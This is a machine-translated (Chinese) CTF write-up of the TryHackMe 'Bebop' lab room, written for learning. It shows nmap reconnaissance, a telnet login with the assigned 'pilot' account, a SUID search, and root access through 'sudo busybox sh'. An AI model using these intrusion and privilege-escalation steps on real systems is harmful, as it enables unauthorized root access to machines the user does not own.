

# TryHackMe 报道:Bebop

> 原文：<https://infosecwriteups.com/tryhackme-writeup-bebop-ed290135d7e2?source=collection_archive---------0----------------------->

[“tryhackme”(2020)](https://tryhackme.com/room/bebop)在 TryHackMe 平台上发布了一个房间，灵感来自一个黑客的 DEF CON 演示，讨论他们入侵邻居无人机的经历( [DEFCONConference，2015](https://youtu.be/5CzURm7OpAA) )。这个房间有一个 FreeBSD 系统，它有一个不安全的远程登录服务，虽然简单，但是很聪明，它有一个权限提升的方法。在这篇文章中，我将讨论我的经验，制定出解决这个房间。


基本图像:[eBay.com(未标明)](https://www.ebay.com/p/3421927)。

# 程序

在我着手解决这个房间的问题之前，我必须先确定这个问题。在这个房间的情况下，需要确定“用户”标志和“根”标志，前者属于一个普通系统用户，后者属于系统中的一个高特权用户。

这是一个演练室，其中一项任务([“tryhackme”，2019，task 3](https://tryhackme.com/room/bebop) )询问有关通过非常规手段获取系统访问权限的攻击性安全方法的问题。问题电池可以提示竞争者在获得对目标系统的访问权时应该采取什么策略。

## 侦察

和使用 TryHackMe boot2root 虚拟机一样，我点击了第一个任务右上角标有“start machine”的绿色按钮。我给了机器几分钟的时间来启动，并注意到我被分配了代号`pilot`([“tryhackme”，2019，task 1](https://tryhackme.com/room/bebop) )，这可能会显示出它自己在获得系统的初始访问权限方面是有用的。

在我的攻击箱上，我继续用 [nmap (n.d.)](https://nmap.org/) 探测目标系统的运行服务:

```
**┌──(dna@deniers)-[~/bebop]
└─$ sudo nmap -sT -A -v -Pn -p- -O -sC -oX tcp_scan.xml <target ip>**
[sudo] password for dna: ***inputs password***[... snip ...]Nmap scan report for <target ip>
Host is up (0.096s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.5 (FreeBSD 20170903; protocol 2.0)
| ssh-hostkey: 
| 2048 5b:e6:85:66:d8:dd:04:f0:71:7a:81:3c:58:ad:0b:b9 (RSA)
| 256 d5:4e:18:45:ba:d4:75:2d:55:2f:fe:c9:1c:db:ce:cb (ECDSA)
|_ 256 96:fc:cc:3e:69:00:79:85:14:2a:e4:5f:0d:35:08:d4 (ED25519)
23/tcp open telnet BSD-derived telnetd
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/).[... snip ...]Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in [redacted] seconds
 Raw packets sent: 117 (8.958KB) | Rcvd: 101 (6.254KB)
```

我还冒昧地使用`xsltproc`将`nmap`的 XML 输出转换成一个漂亮的、可读的 HTML 页面:

```
**┌──(dna@deniers)-[~/bebop]
└─$ xsltproc tcp_scan.xml -o tcp_scan.html**

**┌──(dna@deniers)-[~/bebop]
└─$ ls -l tcp_scan.html**
-rw-r--r--1 dna dna [redacted] [redacted] tcp_scan.html
```

图 1 描述了`nmap`的 XML 输出的摘录:



**图 1:目标机器的 Nmap 探测的 XML 输出。**

系统很可能正在运行 [FreeBSD (n.d.)](https://www.freebsd.org/) 并且正在运行两个服务:端口 22 上的 SSH 服务和端口 23 上的 telnet 服务。这个房间的“测验”确认目标机器正在运行 FreeBSD，并且要利用的易受攻击的服务是 telnet。

## 初始访问

我继续 telnet 到目标机器的端口 23，收到一个登录提示:

```
**┌──(dna@deniers)-[~/bebop]
└─$ telnet <target ip> 23**
Trying <target ip>...
Connected to <target ip>.
Escape character is '^]'.
login:
```

我记得在第一个任务中，我被分配了“代号”`pilot`，所以我在登录时尝试了一下，然后……

```
login: **[pilot]**
Last login: [redacted] from [redacted]
FreeBSD 11.2-STABLE (GENERIC) #0 r345837: Thu Apr 4 02:07:22 UTC 2019Welcome to FreeBSD![... snip ...]**[pilot@freebsd ~]$**
```

最初的访问技术相当简单。我现在可以开始进一步探索目标系统并解决手头的问题。

## 后期开发

我可以从一些基本的东西开始。我要做的第一件事是尝试获取用户标志:

```
**[pilot@freebsd ~]$ ls**
user.txt
**[pilot@freebsd ~]$ cat user.txt**
[redacted]
```

太棒了。我现在可以着手第二个任务了:想出一个办法来访问臭名昭著的`root`账户。这个房间的“测验”任务提出了这样一个问题:“哪个二进制文件用于提升特权[原文如此]？”我假设特权提升可以通过设置了`SUID`位的二进制文件来完成。为此，我运行了`find`命令来获取设置了`SUID`位的二进制文件列表:

```
**[pilot@freebsd ~]$ find / -type f -perm -4000 -print 2>/dev/null**
/bin/rcp
/sbin/mksnap_ffs
/sbin/ping
/sbin/shutdown
/sbin/poweroff
/sbin/ping6
/usr/bin/chpass
/usr/bin/lock
/usr/bin/login
/usr/bin/opieinfo
/usr/bin/opiepasswd
/usr/bin/passwd
/usr/bin/su
/usr/bin/at
/usr/bin/atq
/usr/bin/atrm
/usr/bin/batch
/usr/bin/quota
/usr/bin/rlogin
/usr/bin/rsh
/usr/bin/crontab
/usr/bin/lpq
/usr/bin/lpr
/usr/bin/lprm
/usr/libexec/dma-mbox-create
/usr/libexec/ulog-helper
/usr/libexec/ssh-keysign
/usr/local/bin/sudo
/usr/sbin/traceroute
/usr/sbin/authpf
/usr/sbin/authpf-noip
/usr/sbin/traceroute6
/usr/sbin/ppp
/usr/sbin/timedc
**[pilot@freebsd ~]$**
```

为了找出可以利用哪些系统实用程序来获得 root，以及如何着手利用它们，我将把上述终端的输出与 [GTFOBins (n.d.-a)](https://gtfobins.github.io/) 参考进行比较。不幸的是，据我所知，唯一一个在进入 root 帐户方面看起来可被远程*利用的二进制文件是`crontab` ( [GTFOBins，n.d.-b](https://gtfobins.github.io/gtfobins/crontab/) )，并且它不是通过`SUID`位完成的，而是通过`sudo`实用程序。

*无意双关😋

由于我对 FreeBSD(以及一般的权限提升)不太熟悉，我决定依靠完成这个房间的其他黑客的作品。[“MuirlandOracle”(2020)](https://muirlandoracle.co.uk/2020/01/13/bebop-write-up/)描述了他们为权限提升实施的程序:

> “首先，运行`sudo -l`来确定哪些二进制文件可以作为 root 运行。在这台机器上， [busybox (n.d.)](https://busybox.net/) 实用程序可以作为根用户运行。BusyBox 是一个实用程序，它将不同的基于 Unix 的实用程序合并成一个可执行文件。可以利用它运行 `/bin/sh`来获取根 shell。”—[“MuirlandOracle”(2020)](https://muirlandoracle.co.uk/2020/01/13/bebop-write-up/)释义。

我或多或少做了穆兰多尔做过的事。在我得到的目标系统 shell 上，我执行了以下命令:

```
**[pilot@freebsd ~]$ sudo -l**
User pilot may run the following commands on freebsd:
 (root) NOPASSWD: /usr/local/bin/busybox
**[pilot@freebsd ~]$ sudo /usr/local/bin/busybox sh**
**# id**
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
**# cat /root/root.txt**
[redacted]
```

阿洛拉。

# 摘要

对于一个简单而巧妙的房间来说，这是一篇相当短的文章。利用部分相当容易:`telnet`绝不是一个安全的系统，应该使用更安全的 SSH 服务来代替它。

此外，基于 Linux 和 FreeBSD 的系统之间没有太大的区别。*同样的`sudo -l`技术可以用来获得对 Linux 系统的 root 访问权限，也可以用在 FreeBSD 系统上(我只是没想到要用`sudo -l` lol)。

*关于 Linux 和 FreeBSD 之间明显差异的有趣故事，见[Attrition.org(1998)](https://attrition.org/errata/charlatan/se7en/se7en.018.html)。

## 外卖食品

*   可以用来对 Linux 系统进行根操作的技术与用于对任何其他种类的 Unix 系统进行根操作的技术相似(在某些情况下甚至相同)。
*   `sudo -l`应该和`find / -perm -4000`一样频繁的使用在搜索二进制文件获取根的时候。
*   看在上帝的份上，**不要在生产系统上使用`telnet`。这只会给服用类固醇的黑客带来麻烦😬**

## 插头

看看我的朋友米拉·拉辛，她和其他同事一样，需要经济和情感上的帮助。请查看以下链接:

*   她的推特简介:[https://twitter.com/MiraLazine](https://twitter.com/MiraLazine)
*   她的中等身材:[https://medium.com/@MiraLazine](https://medium.com/@MiraLazine)
*   用现金捐给她自己。app:[https://cash.app/$MiraLazine](https://cash.app/$MiraLazine)

# 参考

Attrition.org(1998 年)。 *se7en 的精英 unix 技能*。2022 年 4 月 16 日检索自:[https://attrition.org/errata/charlatan/se7en/se7en.018.html](https://attrition.org/errata/charlatan/se7en/se7en.018.html)

busybox(未注明)。2022 年 4 月 16 日检索自:[https://busybox.net/](https://busybox.net/)

DEFCONConference (2015 年)。 *DEF CON 23 - Robinson 和 Mitchell -把我邻居家的孩子打得满地找牙。YouTube。2022 年 4 月 16 日检索自:[https://youtu.be/5CzURm7OpAA](https://youtu.be/5CzURm7OpAA)*

eBay.com(未标出)。Sol Bianca:传统套装(DVD，2003 年，3 碟套装)。2022 年 4 月 16 日检索自:[https://www.ebay.com/p/3421927](https://www.ebay.com/p/3421927)

FreeBSD(未标明)。FreeBSD 项目。2022 年 4 月 16 日检索自:【https://www.freebsd.org/ 

GTFOBins(未注明日期)。 *GTFOBins 首页*。2022 年 4 月 16 日检索自:[https://gtfobins.github.io/](https://gtfobins.github.io/)

GTFOBins(未注明)。克朗塔布。2022 年 4 月 16 日检索自:[https://gtfobins.github.io/gtfobins/crontab/](https://gtfobins.github.io/gtfobins/crontab/)

《MuirlandOracle》(2020)。 *Bebop —向上写*。2022 年 4 月 16 日检索自:[https://muirlandoracle.co.uk/2020/01/13/bebop-write-up/](https://muirlandoracle.co.uk/2020/01/13/bebop-write-up/)

nmap(未标明)。 *Nmap:无网络映射器的安全扫描器*。2022 年 4 月 16 日检索:[https://nmap.org/](https://nmap.org/)

《tryhackme》(2019)。 *Bebop* 。TryHackMe。2022 年 4 月 16 日检索自:[https://tryhackme.com/room/bebop](https://tryhackme.com/room/bebop)